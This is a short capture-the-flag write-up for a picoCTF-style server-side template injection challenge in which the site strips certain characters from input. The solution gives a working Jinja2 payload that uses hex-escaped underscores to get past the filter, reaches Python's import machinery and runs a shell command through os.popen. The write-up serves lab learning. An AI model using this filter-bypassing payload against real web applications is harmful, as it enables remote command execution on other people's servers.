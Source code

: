 ![image.png](/assets/images/picoMediumimages/image.png)

---

## SSTI

### Description

> I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.
> 

### Solution

- This is very much similar to SSTI1 that we have solved already.
- Even this challenge is working on JInja2 but just an improvement in sanitization
- The hint stated that they have blacklisted some characters. So, find a payload that works with jinja2 and also excludes the characters that are blacklisted, just do hit and trail

```jsx
{{ request
    |attr('application')
    |attr('\x5f\x5fglobals\x5f\x5f')
    |attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
    |attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')
    |attr('popen')('cat flag')
    |attr('read')()
}}

```
